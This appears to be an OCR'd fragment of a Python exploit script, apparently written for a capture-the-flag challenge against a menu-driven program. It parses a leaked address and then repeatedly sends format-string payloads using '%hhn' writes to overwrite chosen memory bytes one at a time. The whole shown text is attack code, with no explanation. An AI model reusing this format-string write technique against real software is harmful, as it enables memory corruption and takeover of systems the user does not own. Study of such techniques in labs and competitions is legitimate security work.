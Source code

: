 ```python
    data = readtil('>>> ')
    m = re.findall('ZZZZ(.*)BBBB', data)
    
    addr = m[0].decode('hex')
    addr = struct.unpack('>I', addr)[0]
    start = addr & 0xff

# setup $30 to x (addr to write) via $18 by first setting $6->$18
#-----------
    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str(start+1) + 'c%6$hhn')
    readtil('>>> ')
    sendln('4')
    readtil('>>> ') 
    
    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str((x >> 8) & 0xff)+'c%18$hhn')
    readtil('>>> ')
    sendln('4')
    readtil('>>> ')
#-----------
#-----------
    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str(start+2) + 'c%6$hhn')
    readtil('>>> ')
    sendln('4')
    readtil('>>> ')
    
    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str((x >> 16) & 0xff)+'c%18$hhn')
#   readtil('>>> ')
    sendln('4')
    readtil('>>> ')
#-----------
#-----------
```
